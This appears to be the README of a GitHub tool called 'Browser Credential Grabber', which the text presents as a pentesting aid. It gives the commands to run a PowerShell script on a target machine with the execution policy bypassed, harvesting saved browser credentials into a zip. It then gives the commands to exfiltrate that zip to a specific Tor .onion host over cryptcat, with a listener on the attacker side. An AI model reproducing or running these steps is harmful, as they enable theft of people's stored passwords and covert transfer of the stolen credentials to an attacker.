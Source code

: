 # Browser Credential Grabber
This script can be utilized by pentesters to collect saved credentials data in browsers from the target machine. 

## Usage 
- Run the scipt in the target machine, 
CMD : 
```
powershell -ExecutionPolicy Bypass -File grab.ps1
```
PowerShell :
```
.\grab.ps1
```
This will grab the credentials as a zip into the temp folder
- To exfiltrate the zip, use cryptcat and a tor server, 
In the Attacker machine :
```
torify cryptcat -l -p 4444 > data.zip
```
In the Target machine :
```
cryptcat qd4axpacwmfx7zg7abdssxrhmikrg66gsgamxd6vr4ms65bdfmdzvjqq2yd.onion 4444 < $env:USERPROFILE\TEMP\data.zip
```
